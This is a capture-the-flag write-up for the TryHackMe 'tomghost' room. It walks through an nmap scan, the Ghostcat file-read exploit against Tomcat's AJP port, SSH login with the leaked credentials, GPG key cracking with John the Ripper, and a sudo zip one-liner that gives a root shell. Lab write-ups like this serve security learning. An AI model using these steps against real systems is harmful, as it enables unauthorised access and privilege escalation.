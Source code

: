 # tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap 
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 \(regular HTTP port\), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:

![](../../.gitbook/assets/image.png)

We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole \(Metasploit\) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:

![exploit-db results for Tomcat](../../.gitbook/assets/image%20%285%29.png)

At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:

![searchsploit output](../../.gitbook/assets/image%20%288%29.png)

I will then copy this file to my local directory so I can use it for the exploit:

![Copying to local directory](../../.gitbook/assets/image%20%282%29.png)

I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:password <!----I took out the password----->
  </description>

</web-app>

```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:

![The home directory for the user](../../.gitbook/assets/image%20%281%29.png)

There were 2 files in this directory: credential.pgp and tryhackme.asc. Neither of them looked as interesting as I thought they would. Looking around, I found a folder of a different user, and in their directory, I found the user.txt file. 

![The other user&apos;s file](../../.gitbook/assets/screenshot-2021-03-06-230615.png)

I realized that to switch my user access, to merlin \(or even to root\), I had to do something with the files in the skyfuck directory. I downloaded them using scp:

![Scp command](../../.gitbook/assets/screenshot-2021-03-06-231338.png)

I did run into run more trouble here as well. While trying to import the tryhackme.asc by gpg, it was asking me for a password, which I did not have. I had to refer back to the [previous website ](https://cyber-99.co.uk/thm-tomghost)to see how else I can attack this problem. Based on the website, my next step was to use John the ripper to crack the asc file. Prior to doing that, I did have to change into a format that is readable by John. Here is where programs in /opt/john/ come into play. They convert files from one type into a john crackable format. We will use "gpg2john.py". 

![gpg2john command](../../.gitbook/assets/image%20%287%29.png)

Running john on it let me to a password:

![john output](../../.gitbook/assets/screenshot-2021-03-06-233030.png)

I then used the commands on [this website](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key) in order to decrypt the files using the password from the john command. 

![](../../.gitbook/assets/screenshot-2021-03-06-233420.png)

From there, I got into merlin's account using that password. I ran "sudo -l" to see what commands the user merlin is able to do.

![sudo -l output](../../.gitbook/assets/image%20%286%29.png)

We can see that merlin is able to the "zip" command. I have not used this command before, so i will have to do research into how we can root using this. I went to the [GTFObins website](https://gtfobins.github.io/gtfobins/zip/#sudo) to see how I am able to get root on this machine. I ran the following commands:

```markup
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

After this, I had a root shell. I was then able to read the contents of /root/root.txt.

![](../../.gitbook/assets/screenshot-2021-03-06-234126.png)

I had now gotten the password and had completed the room. Overall, it was a great room. I did get lost a couple of times, but I think that's part of the learning process.

